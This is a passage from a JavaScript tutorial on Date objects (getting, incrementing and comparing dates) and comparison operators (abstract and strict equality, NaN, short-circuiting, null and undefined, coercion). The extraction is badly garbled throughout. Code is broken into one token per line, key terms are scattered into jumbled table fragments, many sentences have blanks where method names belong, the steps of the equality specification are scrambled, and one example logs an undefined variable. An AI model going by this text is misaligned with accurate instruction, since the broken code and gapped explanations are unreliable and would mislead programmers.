<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch8-6">Section 8.6: Get the current time and date</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  **new** Date
  

  

Use () to generate a new Date object containing the current date and
time.

  
  Date   () *called without arguments is equivalent    **new**   (   Date   .   now
         to*                                           Date                     
   -     -

  

*Note that* ())*.*

Once you have a date object, you can apply any of the several
available methods to extract its properties (e.g.

  
  getFullYear
  

  

() to get the 4-digits year).
>
Below are some common date methods.
>
**Get the current year**

**var**

year

=

(

**new**

Date

(

)

)

.

getFullYear

(

)

;

console.

log

(

year

)

;

*// Sample output: 2016*

**Get the current month**

**var**

month

=

(

**new**

Date

(

)

)

.

getMonth

(

)

;

console.

log

(

month

)

;

*// Sample output: 0*

Please note that 0 = January. This is because months range from *0* to
*11*, so it is often desirable to add +1 to the index.
>
**Get the current day**

*// Sample output: 31*

**var**

day

=

(

**new**

Date

(

)

)

.

getDate

(

)

;

console.

log

(

day

)

;

**Get the current hour**

*// Sample output: 10*

**var**

hours

=

(

**new**

Date

(

)

)

.

getHours

(

)

;

console.

log

(

hours

)

;

**Get the current minutes**

**var**

minutes

=

(

**new**

Date

(

)

)

.

getMinutes

(

)

;

console.

log

(

minutes

)

;

*// Sample output: 39*

**Get the current seconds**

**var**

seconds

=

(

**new**

Date

(

)

)

.

getSeconds

(

)

;

console.

log

(

second

)

;

*// Sample output: 48*

**Get the current milliseconds**

To get the milliseconds (ranging from 0 to 999) of an instance of a
Date object, use its getMilliseconds method.

*// Output: milliseconds right now*

**var**

milliseconds

=

(

**new**

Date

(

)

)

.

getMilliseconds

(

)

;

console.

log

(

milliseconds

)

;

**Convert the current time and date to a human-readable string**

**var**

now

=

**new**

Date

(

)

;

*// convert date to a string in UTC timezone format:*

console.

log

(

now.

toUTCString

(

)

)

;

*// Output: Wed, 21 Jun 2017 09:13:01 GMT*

  
  Date                                .        now
    

  

The static method () returns the number of milliseconds that have
elapsed since 1 January 1970 00:00:00 UTC. To get the number of
milliseconds that have elapsed since that time using an instance of a
Date object, use its getTime method.

*// get milliseconds using static method now of Date*

console.

log

(

Date

.

now

(

)

)

;

*// get milliseconds using method getTime of Date instance*

console.

log

(

(

**new**

Date

(

)

)

.

getTime

(

)

)

;

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch8-7">Section 8.7: Increment a Date Object</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

To increment date objects in JavaScript, we can usually do this:

**var**

checkoutDate

=

**new**

Date

(

)

;

*// Thu Jul 21 2016 10:05:13 GMT-0400 (EDT)*

checkoutDate.

setDate

(

checkoutDate.

getDate

(

)

\+

1

)

;

console.log(checkoutDate); *// Fri Jul 22 2016 10:05:13 GMT-0400
(EDT)*
>
It is possible to use setDate to change the date to a day in the
following month by using a value larger than the number of days in the
current month -
>
**var** checkoutDate = **new** Date(); *// Thu Jul 21 2016 10:05:13
GMT-0400 (EDT)* checkoutDate.setDate( checkoutDate.getDate() + 12 );
>
console.log(checkoutDate); *// Tue Aug 02 2016 10:05:13 GMT-0400
(EDT)*
>
The same applies to other methods such as getHours(), getMonth(),etc.
>
**Adding Work Days**
>
If you wish to add work days (in this case I am assuming Monday -
Friday) you can use the setDate function although you need a little
extra logic to account for the weekends (obviously this will not take
account of national holidays) -

**function**

addWorkDays

(

startDate

,

days

)

{

*// Get the day of the week as a number (0 = Sunday, 1 = Monday, \.... 6
= Saturday)*

**var**

dow

=

startDate.

getDay

(

)

;

**var**

daysToAdd

=

days

;

*// If the current day is Sunday add one day*

**if**

(

dow

==

0

)

daysToAdd

++

;

*// If the start date plus the additional days falls on or after the
closest Saturday calculate*

*weekends*

**if**

(

dow

\+

daysToAdd

\>=

6

)

{

*//Subtract days in current working week from work days*

**var**

remainingWorkDays

=

daysToAdd

\-

(

5

\-

dow

)

;

*//Add current working week\'s weekend*

daysToAdd

+=

2

;

**if**

(

remainingWorkDays

\>

5

)

{

*//Add two days for each working week by calculating how many weeks are
included*

daysToAdd

+=

2

\*

Math

.

floor

(

remainingWorkDays

/

5

)

;

*//Exclude final weekend if remainingWorkDays resolves to an exact
number of weeks*

**if**

(

remainingWorkDays

\%

5

==

0

)

daysToAdd

-=

2

;

}

}

startDate.

setDate

(

startDate.

getDate

(

)

\+

daysToAdd

)

;

**return**

startDate

;

}

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch8-8">Section 8.8: Convert to JSON</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**var**

date1

=

**new**

Date

(

)

;

date1.

toJSON

(

)

;

Returns: \"2016-04-14T23:49:08.596Z\"

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h2 id="ch9">Chapter 9: Date Comparison</h2>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch9-1">Section 9.1: Comparing Date values</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

To check the equality of

Date

values:

**var**

date1

=

**new**

Date

(

)

;

**var**

date2

=

**new**

Date

(

date1.

valueOf

(

)

\+

10

)

;

console.

log

(

date1.

valueOf

(

)

===

date2.

valueOf

(

)

)

;

Sample output:

**false**

  -
  valueOf                    () or              getTime
   - 

  -

Note that you must use () to compare the values of Date objects
because the equality operator will compare if two object references
are the same. For example:

**var**

date1

=

**new**

Date

(

)

;

**var**

date2

=

**new**

Date

(

)

;

console.

log

(

date1

===

date2

)

;

Sample output:

**false**

Whereas if the variables point to the same object:

**var**

date1

=

**new**

Date

(

)

;

**var**

date2

=

date1

;

console.

log

(

date1

===

date2

)

;

Sample output:

**true**

However, the other comparison operators will work as usual and you can
use \< and \to compare that one date is earlier or later than the
other. For example:

**var**

date1

=

**new**

Date

(

)

;

**var**

date2

=

**new**

Date

(

date1.

valueOf

(

)

\+

10

)

;

console.

log

(

date1

\<

date2

)

;

Sample output:

**true**

It works even if the operator includes equality:

**var**

date1

=

**new**

Date

(

)

;

**var**

date2

=

**new**

Date

(

date1.

valueOf

(

)

)

;

console.

log

(

date1

\<=

date2

)

;

Sample output:

**true**

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch9-2">Section 9.2: Date Difference Calculation</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

To compare the difference of two dates, we can do the comparison based
on the timestamp.

**var**

date1

=

**new**

Date

(

)

;

**var**

date2

=

**new**

Date

(

date1.

valueOf

(

)

\+

5000

)

;

**var**

dateDiff

=

date1.

valueOf

(

)

\-

date2.

valueOf

(

)

;

**var**

dateDiffInYears

=

dateDiff

/

1000

/

60

/

60

/

24

/

365

;

*//convert milliseconds into years*

console.

log

(

\"Date difference in years : \"

\+

dateDiffInYears

)

;

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h2 id="ch10">Chapter 10: Comparison Operations</h2>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch10-1">Section 10.1: Abstract equality / inequality and type conversion</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**The Problem**

The abstract equality and inequality operators (== and !=) convert
their operands if the operand types do not match. This type coercion
is a common source of confusion about the results of these operators,
in particular, these operators aren\'t always transitive as one would
expect.

\"\"

==

0

;

*// true A*

0

==

\"0\"

;

*// true A*

\"\"

==

\"0\"

;

*// false B*

**false**

==

0

;

*// true*

**false**

==

\"0\"

;

*// true*

\"\"

!=

0

;

*// false A*

0

!=

\"0\"

;

*// false A*

\"\"

!=

\"0\"

;

*// true B*

**false**

!=

0

;

*// false*

**false**

!=

\"0\"

;

*// false*

The results start to make sense if you consider how JavaScript
converts empty strings to numbers.

Number

(

\"\"

)

;

*// 0*

Number

(

\"0\"

)

;

*// 0*

Number

(

**false**

)

;

*// 0*

**The Solution**

  
  **false** B
  

  

  
  \"\" == \"0\"
  

  

In the statement , both the operands are strings (\"\" and \"0\"),
hence there will be **no type conversion** and since \"\" and \"0\"
are not the same value, is **false** as expected.
>
One way to eliminate unexpected behavior here is making sure that you
always compare operands of the same type. For example, if you want the
results of numerical comparison use explicit conversion:

**var**

test

=

(

a

,

b

)

=\>

Number

(

a

)

==

Number

(

b

)

;

test

(

\"\"

,

0

)

;

*// true;*

test

(

\"0\"

,

0

)

;

*// true*

test

(

\"\"

,

\"0\"

)

;

*// true;*

test

(

\"abc\"

,

\"abc\"

)

;

*// false as operands are not numbers*

Or, if you want string comparison:

**var**

test

=

(

a

,

b

)

=\>

String

(

a

)

==

String

(

b

)

;

test

(

\"\"

,

0

)

;

*// false;*

test

(

\"0\"

,

0

)

;

*// true*

test

(

\"\"

,

\"0\"

)

;

*// false;*

  -
  Number         (   \"0\"   ) and        **new** Number           (   \"0\"
    -  -  -

  -

*Side-note*: ) isn\'t the same thing! While the former performs a type
conversion,
>
the latter will create a new object. Objects are compared by reference
and not by value which explains the results below.

Number

(

\"0\"

)

==

Number

(

\"0\"

)

;

*// true;*

**new**

Number

(

\"0\"

)

==

**new**

Number

(

\"0\"

)

;

*// false*

Finally, you have the option to use strict equality and inequality
operators which will not perform any implicit type conversions.

\"\"

===

0

;

*// false*

0

===

\"0\"

;

*// false*

\"\"

===

\"0\"

;

*// false*

Further reference to this topic can be found here:
>
[Which equals operator (== vs ===) should be used in JavaScript
comparisons?](http://stackoverflow.com/questions/359494/does-it-matter-which-equals-operator-vs-i-use-in-javascript-comparisons).

Abstract Equality (==)

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch10-2">Section 10.2: NaN Property of the Global Object</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  \"two\"
  

  

  
  Math                            .       sqrt
   - 

  

**NaN** (\"**N**ot **a** **N**umber\") is a special value defined by
the [*IEEE Standard for Floating-Point
Arithmetic*](https://en.wikipedia.org/wiki/IEEE_floating_point), which
is used when a non-numeric value is provided but a number is expected
(1 \*), or when a calculation doesn\'t have a valid number result
((-1)).
>
Any equality or relational comparisons with **NaN** returns **false**,
even comparing it with itself. Because, **NaN** is supposed to denote
the result of a nonsensical computation, and as such, it isn't equal
to the result of any other nonsensical computations.

(

1

\*

\"two\"

)

===

**NaN**

*//false*

**NaN**

===

0

;

*// false*

**NaN**

===

**NaN**

;

*// false*

Number

.

**NaN**

===

**NaN**

;

*// false*

**NaN**

\<

0

;

*// false*

**NaN**

\>

0

;

*// false*

**NaN**

\>

0

;

*// false*

**NaN**

\>=

**NaN**

;

*// false*

**NaN**

\>=

\'two\'

;

*// false*

Non-equal comparisons will always return

**true**

:

**NaN** !== 0; *// true*
>
**NaN** !== **NaN**; *// true*
>
**Checking if a value is NaN** Version ≥ 6
>
You can test a value or expression for **NaN** by using the function
Number.isNaN():

Number

.

isNaN

(

**NaN**

)

;

*// true*

Number

.

isNaN

(

0

/

0

)

;

*// true*

Number

.

isNaN

(

\'str\'

\-

12

)

;

*// true*

Number

.

isNaN

(

24

)

;

*// false*

Number

.

isNaN

(

\'24\'

)

;

*// false*

Number

.

isNaN

(

1

/

0

)

;

*// false*

Number

.

isNaN

(

**Infinity**

)

;

*// false*

Number

.

isNaN

(

\'str\'

)

;

*// false*

Number

.

isNaN

(

**undefined**

)

;

*// false*

Number

.

isNaN

(

{

}

)

;

*// false*

Version \< 6

You can check if a value is **NaN** by comparing it with itself:

value

!==

value

;

*// true for NaN, false for any other value*

  
  Number                              .     isNaN
   - 

  

You can use the following polyfill for ():

Number

.

isNaN

=

Number

.

isNaN

\|\|

**function**

(

value

)

{

**return**

value

!==

value

;

}

  
  isNaN
  

  

By contrast, the global function () returns **true** not only for
**NaN**, but also for any value or expression that cannot be coerced
into a number:

isNaN

(

**NaN**

)

;

*// true*

isNaN

(

0

/

0

)

;

*// true*

isNaN

(

\'str\'

\-

12

)

;

*// true*

isNaN

(

24

)

;

*// false*

isNaN

(

\'24\'

)

;

*// false*

isNaN

(

**Infinity**

)

;

*// false*

isNaN

(

\'str\'

)

;

*// true*

isNaN

(

**undefined**

)

;

*// true*

isNaN

(

{

}

)

;

*// true*

ECMAScript defines a "sameness" algorithm called SameValue which,
since ECMAScript 6, can be invoked with

  
  Object   .   is   . Unlike the == and === comparison, using       Object   .   is
        

  

() will treat **NaN** as identical with itself (and -0 as not

**NaN** === **NaN** *// false*

identical with

+0

):

Object

.

is

(

**NaN**

,

**NaN**

)

*// true*

Object

.

is

(

\+

0

,

0

)

*// false*

\+

0

===

0

*// true*

Version \< 6

  
  Object                                          .       is
   - 

  

You can use the following polyfill for () (from
[MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/is#Polyfill_for_non-ES6_browsers)):

**if**

(

!

Object

.

is

)

{

Object

.

is

=

**function**

(

x

,

y

)

{

*// SameValue algorithm*

**if**

(

x

===

y

)

{

*// Steps 1-5, 7-10*

*// Steps 6.b-6.e: +0 != -0*

**return**

x

!==

0

\|\|

1

/

x

===

1

/

y

;

}

**else**

{

*// Step 6.a: NaN == NaN*

**return**

x

!==

x

&&

y

!==

y

;

}

}

;

}

**Points to note**
>
NaN itself is a number, meaning that it does not equal to the string
\"NaN\", and most importantly (though perhaps unintuitively):

**typeof**

(

**NaN**

)

===

\"number\"

;

*//true*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch10-3">Section 10.3: Short-circuiting in boolean operators</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

The and-operator (&&) and the or-operator (\|\|) employ
short-circuiting to prevent unnecessary work if the outcome of the
operation does not change with the extra work.

  
  x && y
  

  

In , y will not be evaluated if x evaluates to **false**, because the
whole expression is guaranteed to be **false**.

  
  x \|\| y
  

  

In , y will not be evaluated if x evaluated to **true**, because the
whole expression is guaranteed to be **true**. **Example with
functions**
>
Take the following two functions:

**function**

T

(

)

{

*// True*

console.

log

(

\"T\"

)

;

**return**

**true**

;

}

**function**

F

(

)

{

*// False*

console.

log

(

\"F\"

)

;

**return**

**false**

;

}

***Example 1***

T

(

)

&&

F

(

)

;

*// false*

Output:
>
\'T\'
>
\'F\'

***Example 2***

F

(

)

&&

T

(

)

;

*// false*

Output:

\'F\'

***Example 3***

T

(

)

\|\|

F

(

)

;

*// true*

Output:

\'T\'

***Example 4***

F

(

)

\|\|

T

(

)

;

*// true*

Output:
>
\'F\'
>
\'T\'
>
**Short-circuiting to prevent errors**
>
**var** obj; *// object has value of undefined* **if**(obj.property){
}*// TypeError: Cannot read property \'property\' of undefined*
**if**(obj.property && obj !== **undefined**){}*// Line A TypeError:
Cannot read property \'property\' of undefined*
>
Line A: if you reverse the order the first conditional statement will
prevent the error on the second by not executing it if it would throw
the error

**if**

(

obj

!==

**undefined**

&&

obj.

property

)

{

}

;

*// no error thrown*

But should only be used if you expect **undefined**
>
**if**(**typeof** obj === \"object\" && obj.property){}; *// safe
option but slower*
>
**Short-circuiting to provide a default value**
>
The \|\| operator can be used to select either a \"truthy\" value, or
the default value.
>
For example, this can be used to ensure that a nullable value is
converted to a non-nullable value:

**var**

nullableObj

=

**null**

;

**var**

obj

=

nullableObj

\|\|

{

}

;

*// this selects {}*

**var**

nullableObj2

=

{

x

:

5

}

;

**var**

obj2

=

nullableObj2

\|\|

{

}

*// this selects {x: 5}*

Or to return the first truthy value

**var**

truthyValue

=

{

x

:

10

}

;

**return**

truthyValue

\|\|

{

}

;

*// will return {x: 10}*

The same can be used to fall back multiple times:
>
envVariable \|\| configValue \|\| defaultConstValue *// select the
first \"truthy\" of these*
>
**Short-circuiting to call an optional function**
>
The && operator can be used to evaluate a callback, only if it is
passed:

**function**

myMethod

(

cb

)

{

*// This can be simplified*

**if**

(

cb

)

{

cb

(

)

;

}

*// To this*

cb

&&

cb

(

)

;

}

Of course, the test above does not validate that cb is in fact a
**function** and not just an Object/Array/String/Number.
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch10-4">Section 10.4: Null and Undefined</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**The differences between null and undefined null** and **undefined**
share abstract equality == but not strict equality ===,

**null**

==

**undefined**

*// true*

**null**

===

**undefined**

*// false*

They represent slightly different things:
>
**undefined** represents the *absence of a value*, such as before an
identifier/Object property has been created or in the period between
identifier/Function parameter creation and it\'s first set, if any.
>
**null** represents the ***intentional** absence of a value* for an
identifier or property which has already been created.
>
They are different types of syntax:
>
**undefined** is a *property of the global Object*, usually immutable
in the global scope. This means anywhere you can define an identifier
other than in the global namespace could hide **undefined** from that
scope (although things can still **be** **undefined**) **null** is a
*word literal*, so it\'s meaning can never be changed and attempting
to do so will throw an *Error*. **The similarities between null and
undefined null** and **undefined** are both falsy.

**if**

(

**null**

)

console.

log

(

\"won\'t be logged\"

)

;

**if**

(

**undefined**

)

console.

log

(

\"won\'t be logged\"

)

;

Neither **null** or **undefined** equal **false** (see [this
question](http://stackoverflow.com/q/19277458/220060)).

**false**

==

**undefined**

*// false*

**false**

==

**null**

*// false*

**false**

===

**undefined**

*// false*

**false**

===

**null**

*// false*

**Using**

**undefined**

  
  **void**
  

  

  
  foo.bar
  

  

  
  **typeof** foo
  

  

If the current scope can\'t be trusted, use something which evaluates
to *undefined*, for example 0;.
>
If **undefined** is shadowed by another value, it\'s just as bad as
shadowing Array or Number.
>
Avoid *setting* something as **undefined**. If you want to remove a
property *bar* from an *Object* foo, **delete** ; instead.
>
Existence testing identifier foo against **undefined** **could throw a
Reference Error**, use against \"undefined\" instead.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch10-5">Section 10.5: Abstract Equality (==)</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Operands of the abstract equality operator are compared *after* being
converted to a common type. How this conversion happens is based on
the specification of the operator:

[Specification for the ==
operator:](https://tc39.github.io/ecma262/#sec-abstract-equality-comparison)

**7.2.13 Abstract Equality Comparison**

  
  x == y
  

  

The comparison , where x and y are values, produces **true** or
**false**. Such a comparison is performed as follows:

  
  Type        \(x\) is the same as                            Type
    

  

1.  If (y), then:

  
  x === y
  

  

**a.** Return the result of performing Strict Equality Comparison .

2.  If x is **null** and y is **undefined**, return **true**.

3.  If x is **undefined** and y is **null**, return **true**.

  -
  Type   \(x\) is      Type   \(y\) is String, return the result of  x ==
         Number and           the comparison                         ToNumber
   -   

  

4.  If (y).

  
  Type   \(x\) is      Type   \(y\) is Number, return the result of ToNumber   \(x\)   == y
         String and           the comparison                                           
        

  

5.  If .

  
  Type   \(x\) is Boolean, return the result of the       ToNumber   \(x\)   == y
         comparison                                                          
      

  

6.  If .

  
  Type   \(y\) is Boolean, return the result of comparison x == ToNumber
         the                                    
    

  

7.  If (y).

  
  Type   \(x\) is either String, Number, or Symbol and              Type
    

  

  
  x == ToPrimitive
  

  

8.  If (y) is Object, return the result of the comparison (y).

  
  Type         \(x\) is Object and                            Type
    

  

  
  ToPrimitive                               \(x\)       == y
    

  

9.  If (y) is either String, Number, or Symbol, return the result of the
    comparison .

10. Return **false**.

**Examples:**

1 == 1; *// true*

1 == **true**; *// true (operand converted to number: true =\1)*

1 == \'1\'; *// true (operand converted to number: \'1\' =\1 )*

1 == \'1.00\'; *// true*

1 == \'1.00000000001\'; *// false*

1 == \'1.00000000000000001\'; *// true (true due to precision loss)*
**null** == **undefined**; *// true (spec #2)*

1 == 2; *// false* 0 == **false**; *// true*

0 == **undefined**; *// false*

0 == \"\"; *// true*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch10-6">Section 10.6: Logic Operators with Booleans</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**var**

x

=

**true**

,

y

=

**false**

;

**AND**

This operator will return true if both of the expressions evaluate to
true. This boolean operator will employ shortcircuiting and will not
evaluate y if x evaluates to **false**.

x

&&

y

;

This will return false, because y is false.

**OR**

This operator will return true if one of the two expressions evaluate
to true. This boolean operator will employ short-circuiting and y will
not be evaluated if x evaluates to **true**.

x

\|\|

y

;

This will return true, because x is true.

**NOT**

This operator will return false if the expression on the right
evaluates to true, and return true if the expression on the right
evaluates to false.

!

x

;

This will return false, because x is true.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch10-7">Section 10.7: Automatic Type Conversions</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Beware that numbers can accidentally be converted to strings or NaN
(Not a Number).

JavaScript is loosely typed. A variable can contain different data
types, and a variable can change its data type:

**var**

x

=

\"Hello\"

;

*// typeof x is a string*

x

=

5

;

*// changes typeof x to a number*

When doing mathematical operations, JavaScript can convert numbers to
strings:

**var** x = 5 + 7; *// x.valueOf() is 12, typeof x is a number*
**var** x = 5 + \"7\"; *// x.valueOf() is 57, typeof x is a string*
**var** x = \"5\" + 7; *// x.valueOf() is 57, typeof x is a string*
**var** x = 5 - 7; *// x.valueOf() is -2, typeof x is a number*
**var** x = 5 - \"7\"; *// x.valueOf() is -2, typeof x is a number*
**var** x = \"5\" - 7; *// x.valueOf() is -2, typeof x is a number*
**var** x = 5 - \"x\"; *// x.valueOf() is NaN, typeof x is a number*

Subtracting a string from a string, does not generate an error but
returns NaN (Not a Number):

\"Hello\"

\-

\"Dolly\"

*// returns NaN*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch10-8">Section 10.8: Logic Operators with Non-boolean values (boolean coercion)</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Logical OR (\|\|), reading left to right, will evaluate to the first
*truthy* value. If no *truthy* value is found, the last value is
returned.

**var** a = \'hello\' \|\| \'\'; *// a = \'hello\'* **var** b = \'\'
\|\| \[\]; *// b = \[\]* **var** c = \'\' \|\| **undefined**; *// c =
undefined* **var** d = 1 \|\| 5; *// d = 1* **var** e = 0 \|\| {}; *//
e = {}* **var** f = 0 \|\| \'\' \|\| 5; *// f = 5* **var** g = \'\'
\|\| \'yay\' \|\| \'boo\'; *// g = \'yay\'*

Logical AND (&&), reading left to right, will evaluate to the first
*falsy* value. If no *falsey* value is found, the last value is
returned.

**var** a = \'hello\' && \'\'; *// a = \'\'* **var** b = \'\' && \[\];
*// b = \'\'* **var** c = **undefined** && 0; *// c = undefined*
**var** d = 1 && 5; *// d = 5* **var** e = 0 && {}; *// e = 0* **var**
f = \'hi\' && \[\] && \'done\'; *// f = \'done\'* **var** g = \'bye\'
&& **undefined** && \'adios\'; *// g = undefined*

This trick can be used, for example, to set a default value to a
function argument (prior to ES6).

**var**

foo

=

**function**

(

val

)

{

*// if val evaluates to falsey, \'default\' will be returned instead.*

**return**

val

\|\|

\'default\'

;

}

console.

log

(

foo

(

\'burger\'

)

)

;

*// burger*

console.

log

(

foo

(

100

)

)

;

*// 100*

console.

log

(

foo

(

\[

\]

)

)

;

*// \[\]*

console.

log

(

foo

(

0

)

)

;

*// default*

console.

log

(

foo

(

**undefined**

)

)

;

*// default*

Just keep in mind that for arguments, 0 and (to a lesser extent) the
empty string are also often valid values that should be able to be
explicitly passed and override a default, which, with this pattern,
they won't (because they are *falsy*).

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch10-9">Section 10.9: Empty Array</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

*/\* ToNumber(ToPrimitive(\[\])) == ToNumber(false) \*/*

\[

\]

==

**false**

;

*// true*
  
  toString   () is executed it     join   () if it      Object   .   **prototype**   .   toString
             calls \[\].                  exists, or                                     

  

  
  join

When \[\].() otherwise. This comparison is returning **true** because
\[\].() returns \'\' which, coerced into 0, is equal to false
[ToNumber](http://www.ecma-international.org/ecma-262/5.1/#sec-9.3).
>
Beware though, all objects are truthy and Array is an instance of
Object:
>
*// Internally this is evaluated as ToBoolean(\[\]) === true ?
\'truthy\' : \'falsy\'* \[\] ? \'truthy\' : \'falsy\'; *// \'truthy\'*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch10-10">Section 10.10: Equality comparison operations</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

JavaScript has four different equality comparison operations.

[**SameValue**](http://www.ecma-international.org/ecma-262/6.0/#sec-samevalue)

It returns **true** if both operands belong to the same Type and are
the same value.

Note: the value of an object is a reference.

  
  Object                                          .       is
   - 

  

You can use this comparison algorithm via (ECMAScript 6).

Examples:

Object

.

is

(

1

,

1

)

;

*// true*

Object

.

is

(

\+

0

,

\-

0

)

;

*// false*

Object

.

is

(

**NaN**

,

**NaN**

)

;

*// true*

Object

.

is

(

**true**

,

\"true\"

)

;

*// false*

Object

.

is

(

**false**

,

0

)

;

*// false*

Object

.

is

(

**null**

,

**undefined**

)

;

*// false*

Object

.

is

(

1

,

\"1\"

)

;

*// false*

Object

.

is

(

\[

\]

,

\[

\]

)

;

*// false*

This algorithm has the properties of an [equivalence
relation](https://en.wikipedia.org/wiki/Equivalence_relation):

  
  Object                         .     is         (x,             x
  
  Object   .   is   (x,   y   ) is **true** if, and only    Object   .   is   (y,   x
                              if,                                                   
  Object   .   is   (x,   y   ) and  Object   .   is   (y,   z   ) are **true**,  Object   .   is   (x,   z
                                                                 then                                     

[Reflexivity](https://en.wikipedia.org/wiki/Reflexive_relation): ) is
**true**, for any value x
>
[Symmetry](https://en.wikipedia.org/wiki/Symmetric_relation): ) is
**true**, for any values x and y.
>
[Transitivity](https://en.wikipedia.org/wiki/Symmetric_relation): If )
is also **true**, for any values x, y and z.

[**SameValueZero**](http://www.ecma-international.org/ecma-262/6.0/#sec-samevaluezero)

